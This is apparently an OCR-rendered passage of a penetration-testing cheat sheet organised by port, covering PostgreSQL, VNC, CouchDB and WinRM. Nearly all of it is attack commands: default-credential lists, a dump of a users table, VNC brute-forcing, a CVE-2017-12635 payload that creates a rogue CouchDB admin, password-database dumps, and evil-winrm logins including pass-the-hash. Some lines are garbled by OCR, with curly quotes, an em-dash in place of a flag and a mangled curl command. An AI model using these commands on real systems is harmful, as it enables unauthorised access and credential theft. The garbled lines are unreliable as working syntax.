 ### Port 5432 - PostgreSQL

```
psql -h 10.10.1.111 -U postgres -W

# Default creds
postgres : postgres
postgres : password
postgres : admin
admin : admin
admin : password

pg_dump --host=10.10.1.111 --username=postgres --password --dbname=template1 --table='users' -f output_pgdump

```

### Port 5900 - VNC

```
nmap --script=vnc-info,vnc-brute,vnc-title -p 5900 10.11.1.111

```

### Port 5984 - CouchDB

```
curl <http://example.com:5984/>
curl -X GET <http://IP:5984/_all_dbs>
curl -X GET <http://user:password@IP:5984/_all_dbs>

# CVE-2017-12635 RCE

# Create user
curl -X PUT ‘<http://localhost:5984/_users/org.couchdb.user:chenny>' — data-binary ‘{ “type”: “user”, “name”: “chenny”, “roles”: [“_admin”], “roles”: [], “password”: “password” }’

# Dump database
curl <http://127.0.0.1:5984/passwords/_all_docs?include_docs=true> -u chenny:-Xpassword <ds/_all_docs?include_docs=true -u chenny:-Xpassword

# Dump passwords
curl -X GET <http://user:passwords@localhost:5984/passwords>

```

### Port 5985 - WinRM

```
# <https://github.com/Hackplayers/evil-winrm>
gem install evil-winrm
evil-winrm -i 10.11.1.111 -u Administrator -p 'password1'
evil-winrm -i 10.11.1.111 -u Administrator -H 'hash-pass' -s /scripts/folder

```
